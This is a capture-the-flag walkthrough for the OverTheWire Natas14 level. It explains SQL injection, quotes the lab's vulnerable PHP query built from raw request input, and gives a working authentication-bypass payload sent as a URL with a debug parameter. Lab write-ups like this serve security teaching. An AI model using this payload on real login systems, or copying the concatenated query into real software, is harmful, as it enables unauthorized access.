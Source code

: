 # 🔐 Natas14 Walkthrough

We’re presented with a login form. This hints that **SQL Injection** might be the intended path forward.

## 💡 What is SQL Injection?

SQL Injection is a technique used to manipulate a website’s database through its input fields.

### 🔎 Example

Imagine a login system with a SQL query like this:

```php
SELECT * FROM users WHERE username = "$username" AND password = "$password";
```

Now suppose the attacker enters the following credentials:

```
username: admin  
password: password" OR "1 --
```

The query becomes:

```php
SELECT * FROM users WHERE username = "admin" AND password = "password" OR "1" --";
```

Let's break it down:
- `"password"` ends the password value.
- `OR "1"` (shorthand for "1" = true) makes the condition always true.
- `--` comments out the rest of the SQL query (optional, but often helpful).

So the condition simplifies to:

```
username = "admin" AND (false) OR (true)
```

Which effectively bypasses the password check and logs in as `admin`.

## ✅ Exploit

Now, let’s check the [View sourcecode](http://natas14.natas.labs.overthewire.org/index-source.html) for Natas14.

From the source, we see:

```php
$link=mysqli_connect('localhost', 'natas14', '<censored>');  
mysqli_select_db($link, 'natas14');
```

This confirms that usernames and passwords are stored in a database.

And here’s an interesting part:

```php
if(array_key_exists("debug", $_GET)) {
    echo "Executing query: $query<br>";
}
```

This enables a "debug mode" if we include `debug` as a URL parameter. 
This lets us **see the SQL query** that gets executed — super useful!

Try opening this in your browser:

```
http://natas14.natas.labs.overthewire.org/index.php?username=&password=&debug
```

You’ll see the SQL query being built with the given parameters.

Now try to put something into the `password` and `username` variables:

```
http://natas14.natas.labs.overthewire.org/index.php?username=admin&password=password" OR "1&debug
```

You should see your input on the website screen. Making it easier to manipulate the sql injection with `""`.

## 🐛 The Vulnerable Code

The vulnerable line is:

```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
```

This directly inserts raw user input into the SQL query — a classic SQL injection vulnerability.

Let’s simplify it by removing the `\` backticks:

```php
SELECT * FROM users WHERE username = "$userProvidedUsername" AND password = "$userProvidedPassword";
```

This is almost identical to our earlier example — and just as vulnerable.

## 🎯 Final Attack

Use the following credentials in the **URL**, not the login form:

```
username: admin  
password: password" OR "1 (as you can see '--' not used)
```

So the final link looks like:

```
http://natas14.natas.labs.overthewire.org/index.php?username=admin&password=password" OR "1&debug
```

This will generate a query like:

```php
SELECT * FROM users WHERE username = "admin" AND password = "" OR "1";
```

Which bypasses authentication and logs you in! You should now see the password for **Natas15**. :}


## Alternitevly 

You can use a dev tool like [Brup Suite](https://learnhacking.io/basic-web-skills-setting-up-burp-suite/) which is covered in a different file.
